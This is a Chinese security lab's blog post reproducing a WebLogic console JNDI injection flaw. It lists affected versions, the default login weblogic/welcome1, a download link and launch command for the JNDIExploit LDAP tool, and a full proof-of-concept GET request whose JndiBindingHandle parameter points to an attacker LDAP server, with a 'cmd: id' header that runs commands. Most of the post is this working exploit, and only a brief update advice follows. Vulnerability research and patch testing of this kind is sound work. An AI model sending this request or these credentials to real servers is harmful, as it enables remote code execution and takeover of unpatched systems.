 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/u6cFxKxdOOYOXn07DjEEdQ)

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQ6zmbJT8JmSXZIpRYEIsDhfBEAuIc3d2MniaIhxn9PjDlAyXBdPt7Nsmn3g1oQbDwFgtAsrO5h5fg/640?wx_fmt=png)

### **影响版本**

WeblogicServer

10.3.6.0.0，

12.1.3.0.0，

12.2.1.3.0，

12.2.1.4.0，

14.1.1.0.0

其他漏洞影响的组件可详细参考官方公告

### **漏洞复现**

访问 console 登陆页面

http://192.168.2.7:7001/console/login/LoginForm.jsp

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQ6zmbJT8JmSXZIpRYEIsDhU1yLyIR7FRkEa9DPFBFylqjXqgWqicr4d1rjEFnRayXDC5MX1k5NJ7A/640?wx_fmt=png) 

User: weblogic  
Pass: welcome1

登陆

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQ6zmbJT8JmSXZIpRYEIsDhVQpibhP9aE4g0B7aflxIfibKdfQSOgrkOqAzxxfZ9lmxAVCngHmy1cNg/640?wx_fmt=png) 

启动 LDAP

下载地址：

https://github.com/feihong-cs/JNDIExploit/releases/tag/v.1.11

启动命令

java -jar JNDIExploit-v1.11.jar -ihttp://192.168.2.7/

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQ6zmbJT8JmSXZIpRYEIsDhYcQ5npdWgjlDibiciaAXW1SP7fGJEm1BeR0YzzdlETVmNrAicWIMeH4Z5g/640?wx_fmt=png) 

POC

<table><tbody><tr><td width="557" valign="top">/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&amp;_nfpb=true&amp;JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.2;7:1389/Basic/WeblogicEcho;AdminServer%22)</td></tr></tbody></table>

cmd: 执行的命令

| GET/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.2;7:1389/Basic/WeblogicEcho;AdminServer%22)HTTP/1.1  
Host: 192.168.2.7:7001  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X10.16; rv:84.0) Gecko/20100101 Firefox/84.0  
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  
Accept-Language:zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Connection: close  
cmd: id  
Cookie:ADMINCONSOLESESSION=heYqQ2eUftBPoL7QV1UkuV_OIGBCFx-EF-gwXjcfSZUPtbw-p-YM!144315005  
Upgrade-Insecure-Requests: 1 |

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQ6zmbJT8JmSXZIpRYEIsDhH8TfnAHc8FG32Kk9SicB03AiaZ3qJJVjD0OV42PBkyyeNLsKTs8JpY7Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQ6zmbJT8JmSXZIpRYEIsDhuiaWMEpuHDQgDDOOHjZKRPdUwTvY84AWNcKN9YiahnmhNEv9xQe4bCLg/640?wx_fmt=png)

成功命令执行

### **总结建议**

weblogic 总是频频曝出命令执行，建议用户使用时持续关注，更新到最新版本，得以解决版本漏洞问题。

### **Reference**

https://xz.aliyun.com/t/9049

**关于山石网科安全技术研究院**

  

  

  

    山石安研院是山石网科的信息安全智库部门，主要负责反 APT 研究、出战及承办全球攻防赛事、高端攻防技术培训、全球中英文安全预警分析发布、各类软硬件漏洞挖掘和利用研究、承接国家网络安全相关课题、不定期发布年度或半年度的各类技术报告及公司整体攻防能力展现。技术方向包括移动安全、虚拟化安全、工控安全、物联安全、区块链安全、协议安全、源码安全、反 APT 及反窃密。  
    为多省公安厅提供技术支撑工作，为上合峰会、财富论坛、金砖五国等多次重大活动提供网络安保支撑工作。在多次攻防赛事中连获佳绩，网安中国行第一名，连续两届红帽杯冠军、网鼎杯线上第一名，在补天杯、极棒杯、全国多地的护网演习等也都获得优秀的成绩，每年获得大量的 CNVD、CNNVD、CICSVD、CVE 证书、编号和致谢。如需帮助请咨询 hslab@hillstonenet.com

![](https://mmbiz.qpic.cn/mmbiz_jpg/Gw8FuwXLJnSWuIjGFp2q9CdPia5gDNPoVcTmJNicOGv7G8JhomWthCbtIGXrhLJeia8F5FbTwY6tGJHOxA74xbCGQ/640?wx_fmt=jpeg)
